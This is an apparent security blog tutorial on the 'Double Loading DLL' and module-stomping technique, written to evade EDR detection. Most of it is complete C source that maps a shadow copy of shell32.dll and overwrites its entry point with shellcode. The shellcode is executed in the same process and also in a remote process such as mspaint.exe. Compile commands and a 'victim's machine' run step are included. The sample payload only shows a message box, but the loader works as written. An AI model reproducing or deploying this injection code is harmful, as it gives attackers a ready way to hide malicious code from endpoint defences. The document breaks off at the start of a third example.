# Double loading DLL

Common code injection methods (for example, `VirtualAllocEx` + `WriteProcessMemory`) create `MEM_PRIVATE` memory regions. Modern EDR (Endpoint Detection and Response) systems are highly suspicious of executable code in "private" memory that is not linked to any file on disk. This is one of the main indicators of malicious activity.   

What's Double Loading DLL Mechanism?    

The malware targets a large system DLL that is usually already loaded into most processes (for example, `shell32.dll`, `combase.dll`, or `user32.dll`).    

Then we go to second stage, doule loading logic. Windows doesn't allow the same DLL to be loaded twice from the same path (the `LoadLibrary` function simply returns a pointer to the existing instance). To obtain a second, independent copy of the same library in memory, the malware uses low-level `NTAPI` functions:
It opens the DLL file on disk.    
It creates a "section" (`NtCreateSection`) with the `SEC_IMAGE` flag.    
It maps this section into process memory (`NtMapViewOfSection`).    

Now there are two copies of the same system library in the process's memory. One is the official one, the other is a "shadow" one.     

Next step is module stomping logic: The malware decrypts its malicious code (payload). It then changes the memory access rights of the second (shadow) DLL (via `VirtualProtect`) and overwrites its contents (usually the `.text` section, where the executable code resides, or the entry point) with its own code.    

Finlly just control interception: the malware transfers control to an address within this modified system DLL.    

### practical example

To implement the Double DLL Loading technique (as in Shanya/`mustard64`), the basic idea is to manually remap the system library from a file into memory, even if it's already loaded into the process.     

Unlike `LoadLibrary`, which simply returns a pointer to the already loaded copy, using `NtCreateSection` with the `SEC_IMAGE` flag and a file descriptor forces the OS to create a new independent copy (mapping) of this DLL in the process's address space.    

Let's implement withTarget DLL - `shell32.dll` (it's larger, so it's easier to hide large shellcode in it, like in Shanya).    

```cpp
// shell32.dll - good candidate: big .text section
#define TARGET_DLL  L"C:\\Windows\\System32\\shell32.dll"
```

Get NTAPI function addresses:   

```cpp
// get NT API function addresses
HMODULE hNtdll = GetModuleHandleW(L"NTDLL");
if (!hNtdll) return -1;

fnNtCreateSection pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
fnNtMapViewOfSection pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
fnNtCreateThreadEx pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

if (!pNtCreateSection || !pNtMapViewOfSection || !pNtCreateThreadEx) return -1;

printf("current Shell32.dll base: 0x%p\n", GetModuleHandleW(L"shell32.dll"));
```

First trick is `MEM_IMAGE`: If EDR scans memory, it will see that code is executing in a region that Windows considers a legitimate `shell32.dll` file. Unlike `VirtualAlloc`, this does not immediately trigger an "Unbacked Executable Memory" alert.     

```cpp
STATUS = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
CloseHandle(hFile);
if (!NT_SUCCESS(STATUS)) {
  printf("NtCreateSection failed: 0x%0.8X\n", STATUS);
  return -1;
}
```

module confusion: only one `shell32.dll` (the original) can appear in the list of loaded modules (via `EnumProcessModules`), while our copy will be "shadowed" if we don't register it in LDR (which we do by using `NtMapViewOfSection` directly).    

finally, EntryPoint stomping: we replace the original library entry point code. This looks much less suspicious than creating a new thread at a random address on the heap.     

Full source code is looks like the following:    

```cpp
/* 
 * hack.c - Double Loading DLL & Module Stomping
 * technique: Manual mapping of a system DLL 
 * from disk to bypass EDR
 * reference: Shanya / mustard64 evasion
*/
#include <windows.h>
#include <stdio.h>

// shell32.dll - good candidate: big .text section
#define TARGET_DLL  L"C:\\Windows\\System32\\shell32.dll"

#define STATUS_SUCCESS    0x00000000
#define NtCurrentProcess()  ( (HANDLE)-1 )
#define NT_SUCCESS(STATUS)  (((NTSTATUS)(STATUS)) >= STATUS_SUCCESS)

typedef enum _SECTION_INHERIT {
  ViewShare = 1,
  ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;

// structures for Native API
typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  PUNICODE_STRING ObjectName;
  ULONG Attributes;
  PVOID SecurityDescriptor;
  PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _PS_ATTRIBUTE {
  ULONG_PTR Attribute;
  SIZE_T Size;
  union {
    ULONG_PTR Value;
    PVOID ValuePtr;
  };
  PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST {
  SIZE_T TotalLength;
  PS_ATTRIBUTE Attributes[3];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

typedef NTSTATUS(NTAPI* fnNtCreateSection)(
  OUT PHANDLE    SectionHandle,
  IN  ACCESS_MASK    DesiredAccess,
  IN  POBJECT_ATTRIBUTES  ObjectAttributes  OPTIONAL,
  IN  PLARGE_INTEGER  MaximumSize    OPTIONAL,
  IN  ULONG    SectionPageProtection,
  IN  ULONG    AllocationAttributes,
  IN  HANDLE    FileHandle    OPTIONAL
  );

typedef NTSTATUS(NTAPI* fnNtMapViewOfSection)(
  IN  HANDLE    SectionHandle,
  IN  HANDLE    ProcessHandle,
  IN OUT  PVOID* BaseAddress,
  IN  SIZE_T    ZeroBits,
  IN  SIZE_T    CommitSize,
  IN OUT  PLARGE_INTEGER  SectionOffset  OPTIONAL,
  IN OUT  PSIZE_T    ViewSize,
  IN  SECTION_INHERIT InheritDisposition,
  IN  ULONG    AllocationType,
  IN  ULONG    Protect
  );

typedef NTSTATUS(NTAPI* fnNtCreateThreadEx)(
  PHANDLE         ThreadHandle,
  ACCESS_MASK       DesiredAccess,
  POBJECT_ATTRIBUTES    ObjectAttributes,
  HANDLE          ProcessHandle,
  PVOID           StartRoutine,
  PVOID           Argument,
  ULONG           CreateFlags,
  SIZE_T          ZeroBits,
  SIZE_T          StackSize,
  SIZE_T          MaximumStackSize,
  PPS_ATTRIBUTE_LIST    AttributeList
  );

// x64 shellcode (MessageBox "Hello world")
unsigned char rawData[] =
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main() {
  NTSTATUS STATUS = 0;
  HANDLE hFile = INVALID_HANDLE_VALUE;
  HANDLE hSection = NULL;
  HANDLE hThread = NULL;
  PVOID uMappedModule = NULL;
  SIZE_T sViewSize = 0;
  ULONG_PTR uEntryPoint = 0;
  DWORD dwOldProtection = 0;

  // get NT API function addresses
  HMODULE hNtdll = GetModuleHandleW(L"NTDLL");
  if (!hNtdll) return -1;

  fnNtCreateSection pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
  fnNtMapViewOfSection pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
  fnNtCreateThreadEx pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

  if (!pNtCreateSection || !pNtMapViewOfSection || !pNtCreateThreadEx) return -1;

  printf("current Shell32.dll base: 0x%p\n", GetModuleHandleW(L"shell32.dll"));
  printf("press <Enter> to perform Double Loading of shell32.dll...");
  getchar();

  // opening a file from disk (IMPORTANT: this is what creates the second copy)
  hFile = CreateFileW(TARGET_DLL, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("opening file from disk CreateFileW failed: %d\n", GetLastError());
    return -1;
  }

  // create SEC_IMAGE section
  STATUS = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
  CloseHandle(hFile);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtCreateSection failed: 0x%0.8X\n", STATUS);
    return -1;
  }

  // section mapping (Double Mapping)
  // the system will automatically select a new base address, since the original shell32 address is occupied
  STATUS = pNtMapViewOfSection(hSection, NtCurrentProcess(), &uMappedModule, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
    CloseHandle(hSection);
    return -1;
  }

  printf("double loaded DLL base: 0x%p (type: MEM_IMAGE)\n", uMappedModule);

  // search Entry Point in the new shadow copy (in the second instance)
  PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModule + ((PIMAGE_DOS_HEADER)uMappedModule)->e_lfanew);
  uEntryPoint = (ULONG_PTR)uMappedModule + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;
  
  printf("target entry point in second instance: 0x%p\n", (PVOID)uEntryPoint);

  // stomping (rewriting an EP in a shadow copy)
  printf("press <Enter> to stomp shellcode into the second instance...");
  getchar();

  if (!VirtualProtect((LPVOID)uEntryPoint, sizeof(rawData), PAGE_READWRITE, &dwOldProtection)) {
    printf("VirtualProtect (RW) failed: %d\n", GetLastError());
    goto _CLEANUP;
  }

  memcpy((PVOID)uEntryPoint, rawData, sizeof(rawData));

  if (!VirtualProtect((LPVOID)uEntryPoint, sizeof(rawData), dwOldProtection, &dwOldProtection)) {
    printf("VirtualProtect (restore) failed: %d\n", GetLastError());
    goto _CLEANUP;
  }

  // execution
  printf("press <Enter> to execute via NtCreateThreadEx...");
  getchar();

  STATUS = pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), (PVOID)uEntryPoint, NULL, FALSE, 0, 0, 0, NULL);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtCreateThreadEx failed: 0x%0.8X\n", STATUS);
    goto _CLEANUP;
  }

  printf("executed! HIDDEN in MEM_IMAGE of shell32.dll\n");
  WaitForSingleObject(hThread, INFINITE);
  CloseHandle(hThread);

_CLEANUP:
  if (hSection) CloseHandle(hSection);
  return 0;
}
```

### demo

Let's go too see everything in action. Compile sample:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Then on the victim's machine run:   

```powershell
.\hack.exe
```

    

First of all, checking the original DLL. Before performing a Double Load, check where the "real" DLL is located:    

    

In our case it is not there, it is not loaded, it can be loaded using `LoadLibrary`    

After run and complete main logic:   

     

     

     

### practical example for remote process

Let's check this trick on remote process (We will use something like `mspaint.exe` in demo).    

Key Differences in Remote Version:

First of all we use remote process handle. `NtMapViewOfSection` and `NtCreateThreadEx` now use `hProcess` (from `OpenProcess`) instead of `NtCurrentProcess()`:     

```cpp
// open remote process
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);
if (!hProcess) {
  printf("OpenProcess failed: %d\n", GetLastError());
  return -1;
}

// open file from disk
hFile = CreateFileW(TARGET_DLL, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
  printf("CreateFileW failed: %d\n", GetLastError());
  return -1;
}

// create SEC_IMAGE section locally
STATUS = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
CloseHandle(hFile);
if (!NT_SUCCESS(STATUS)) {
  printf("NtCreateSection failed: 0x%0.8X\n", STATUS);
  return -1;
}

// map the section into the REMOTE process
// BaseAddress (uMappedModuleRemote) will be updated with the address in the REMOTE process
STATUS = pNtMapViewOfSection(hSection, hProcess, &uMappedModuleRemote, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(STATUS)) {
  printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
  CloseHandle(hSection);
  return -1;
}
```

Then update mapping address logic. The `uMappedModuleRemote` pointer receives the base address allocated inside the remote process's address space:    

```cpp
// map the section into the REMOTE process
// BaseAddress (uMappedModuleRemote) will be updated with the address in the REMOTE process
STATUS = pNtMapViewOfSection(hSection, hProcess, &uMappedModuleRemote, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(STATUS)) {
  printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
  CloseHandle(hSection);
  return -1;
}

printf("successfully mapped second instance of Shell32.dll into PID %d at 0x%p\n", pid, uMappedModuleRemote);

// calculate the Entry Point offset locally
// we map it locally briefly just to read the headers, or parse the file.
// simpler: Use NtMapViewOfSection on current process to find the offset.
PVOID uMappedModuleLocal = NULL;
SIZE_T sLocalViewSize = 0;
pNtMapViewOfSection(hSection, (HANDLE)-1, &uMappedModuleLocal, 0, 0, NULL, &sLocalViewSize, ViewShare, 0, PAGE_READONLY);

PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModuleLocal + ((PIMAGE_DOS_HEADER)uMappedModuleLocal)->e_lfanew);
DWORD dwEntryPointOffset = pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;
UnmapViewOfFile(uMappedModuleLocal);
```

Then update on offset calculation. Because we cannot easily parse the `IMAGE_NT_HEADERS` of a remote memory block without calling `ReadProcessMemory` multiple times, we map the same section into our local process first. This allows us to calculate the `AddressOfEntryPoint` offset, which remains constant regardless of the base address.

What about memory injection? Used standard `memcpy` is replaced with `WriteProcessMemory`:    

```cpp
if (!WriteProcessMemory(hProcess, (LPVOID)uRemoteEntryPoint, rawData, sizeof(rawData), NULL)) {
  printf("WriteProcessMemory failed: %d\n", GetLastError());
  goto _CLEANUP;
}
```

Update protection: `VirtualProtect` is replaced with `VirtualProtectEx`:    

```cpp
// stomping: Write shellcode to the remote entry point
if (!VirtualProtectEx(hProcess, (LPVOID)uRemoteEntryPoint, sizeof(rawData), PAGE_READWRITE, &dwOldProtection)) {
  printf("VirtualProtectEx (RW) failed: %d\n", GetLastError());
  goto _CLEANUP;
}

if (!WriteProcessMemory(hProcess, (LPVOID)uRemoteEntryPoint, rawData, sizeof(rawData), NULL)) {
  printf("WriteProcessMemory failed: %d\n", GetLastError());
  goto _CLEANUP;
}

if (!VirtualProtectEx(hProcess, (LPVOID)uRemoteEntryPoint, sizeof(rawData), dwOldProtection, &dwOldProtection)) {
  printf("VirtualProtectEx (restore) failed: %d\n", GetLastError());
  goto _CLEANUP;
}
```

Full source code:    

```cpp
/* 
 * hack2.c - remote Double Loading DLL & module stomping
 * technique: manual mapping of a system DLL into a REMOTE process
 * author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

// shell32.dll - good candidate: big .text section
#define TARGET_DLL  L"C:\\Windows\\System32\\shell32.dll"

#define STATUS_SUCCESS  0x00000000
#define NT_SUCCESS(STATUS)  (((NTSTATUS)(STATUS)) >= STATUS_SUCCESS)

typedef enum _SECTION_INHERIT {
  ViewShare = 1,
  ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;

// structures for Native API
typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  PUNICODE_STRING ObjectName;
  ULONG Attributes;
  PVOID SecurityDescriptor;
  PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _PS_ATTRIBUTE {
  ULONG_PTR Attribute;
  SIZE_T Size;
  union {
    ULONG_PTR Value;
    PVOID ValuePtr;
  };
  PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _PS_ATTRIBUTE_LIST {
  SIZE_T TotalLength;
  PS_ATTRIBUTE Attributes[3];
} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;

typedef NTSTATUS(NTAPI* fnNtCreateSection)(
  OUT PHANDLE  SectionHandle,
  IN  ACCESS_MASK  DesiredAccess,
  IN  POBJECT_ATTRIBUTES  ObjectAttributes  OPTIONAL,
  IN  PLARGE_INTEGER  MaximumSize  OPTIONAL,
  IN  ULONG  SectionPageProtection,
  IN  ULONG  AllocationAttributes,
  IN  HANDLE  FileHandle  OPTIONAL
  );

typedef NTSTATUS(NTAPI* fnNtMapViewOfSection)(
  IN  HANDLE  SectionHandle,
  IN  HANDLE  ProcessHandle,
  IN OUT  PVOID* BaseAddress,
  IN  SIZE_T  ZeroBits,
  IN  SIZE_T  CommitSize,
  IN OUT  PLARGE_INTEGER  SectionOffset  OPTIONAL,
  IN OUT  PSIZE_T  ViewSize,
  IN  SECTION_INHERIT InheritDisposition,
  IN  ULONG  AllocationType,
  IN  ULONG  Protect
  );

typedef NTSTATUS(NTAPI* fnNtCreateThreadEx)(
  PHANDLE     ThreadHandle,
  ACCESS_MASK     DesiredAccess,
  POBJECT_ATTRIBUTES  ObjectAttributes,
  HANDLE      ProcessHandle,
  PVOID       StartRoutine,
  PVOID       Argument,
  ULONG       CreateFlags,
  SIZE_T      ZeroBits,
  SIZE_T      StackSize,
  SIZE_T      MaximumStackSize,
  PPS_ATTRIBUTE_LIST  AttributeList
);

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// x64 shellcode (MessageBox "Hello world")
unsigned char rawData[] =
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main(int argc, char* argv[]) {
  if (argc < 2) {
    printf("usage: %s <process name>\n", argv[0]);
    return -1;
  }

  int pid = 0;
  NTSTATUS STATUS = 0;
  HANDLE hFile = INVALID_HANDLE_VALUE;
  HANDLE hSection = NULL;
  HANDLE hThread = NULL;
  HANDLE hProcess = NULL;
  PVOID uMappedModuleRemote = NULL;
  SIZE_T sViewSize = 0;
  DWORD dwOldProtection = 0;

  pid = findMyProc(argv[1]);

  // get NT API function addresses
  HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
  fnNtCreateSection pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
  fnNtMapViewOfSection pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
  fnNtCreateThreadEx pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

  // open remote process
  hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);
  if (!hProcess) {
    printf("OpenProcess failed: %d\n", GetLastError());
    return -1;
  }

  // open file from disk
  hFile = CreateFileW(TARGET_DLL, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("CreateFileW failed: %d\n", GetLastError());
    return -1;
  }

  // create SEC_IMAGE section locally
  STATUS = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
  CloseHandle(hFile);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtCreateSection failed: 0x%0.8X\n", STATUS);
    return -1;
  }

  // map the section into the REMOTE process
  // BaseAddress (uMappedModuleRemote) will be updated with the address in the REMOTE process
  STATUS = pNtMapViewOfSection(hSection, hProcess, &uMappedModuleRemote, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
    CloseHandle(hSection);
    return -1;
  }

  printf("successfully mapped second instance of Shell32.dll into PID %d at 0x%p\n", pid, uMappedModuleRemote);

  // calculate the Entry Point offset locally
  // we map it locally briefly just to read the headers, or parse the file.
  // simpler: Use NtMapViewOfSection on current process to find the offset.
  PVOID uMappedModuleLocal = NULL;
  SIZE_T sLocalViewSize = 0;
  pNtMapViewOfSection(hSection, (HANDLE)-1, &uMappedModuleLocal, 0, 0, NULL, &sLocalViewSize, ViewShare, 0, PAGE_READONLY);
  
  PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModuleLocal + ((PIMAGE_DOS_HEADER)uMappedModuleLocal)->e_lfanew);
  DWORD dwEntryPointOffset = pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;
  UnmapViewOfFile(uMappedModuleLocal);

  ULONG_PTR uRemoteEntryPoint = (ULONG_PTR)uMappedModuleRemote + dwEntryPointOffset;
  printf("target remote entry point: 0x%p\n", (PVOID)uRemoteEntryPoint);

  // stomping: Write shellcode to the remote entry point
  if (!VirtualProtectEx(hProcess, (LPVOID)uRemoteEntryPoint, sizeof(rawData), PAGE_READWRITE, &dwOldProtection)) {
    printf("VirtualProtectEx (RW) failed: %d\n", GetLastError());
    goto _CLEANUP;
  }

  if (!WriteProcessMemory(hProcess, (LPVOID)uRemoteEntryPoint, rawData, sizeof(rawData), NULL)) {
    printf("WriteProcessMemory failed: %d\n", GetLastError());
    goto _CLEANUP;
  }

  if (!VirtualProtectEx(hProcess, (LPVOID)uRemoteEntryPoint, sizeof(rawData), dwOldProtection, &dwOldProtection)) {
    printf("VirtualProtectEx (restore) failed: %d\n", GetLastError());
    goto _CLEANUP;
  }

  // execution in remote process
  printf("press <Enter> to execute shellcode in remote process via NtCreateThreadEx...");
  getchar();

  STATUS = pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, (PVOID)uRemoteEntryPoint, NULL, FALSE, 0, 0, 0, NULL);
  if (!NT_SUCCESS(STATUS)) {
    printf("NtCreateThreadEx failed: 0x%0.8X\n", STATUS);
    goto _CLEANUP;
  }

  printf("executed thread %d in remote process!\n", GetThreadId(hThread));
  CloseHandle(hThread);

_CLEANUP:
  if (hSection) CloseHandle(hSection);
  if (hProcess) CloseHandle(hProcess);
  return 0;
}
```

### demo 2

To test Double Loading technique using the `x64dbg` debugger, you will need to monitor the memory state of the target (remote) process.

Let's go to see this in action. Compile:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

First of all, check remote `mspaint.exe` via debugger:    

    

    

Then, run our malware:    

```powershell
.\hack2.exe mspaint.exe
```

    

Follow in dump on selected address: `0x0000017a8de90000`:    

    

   

    

    

Follow in dump on address of Entry Point `0x0000017a8dfa3d80`:    

    

our shellcode:    

    

Then execute thread:     

     

As you can see, everything is worked as expected!    

### practical example 3

To make sure the technique worked and the addresses are different, let's modify the code so that it first finds the address of the original DLL in the remote process and then compares it with the new one.     

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

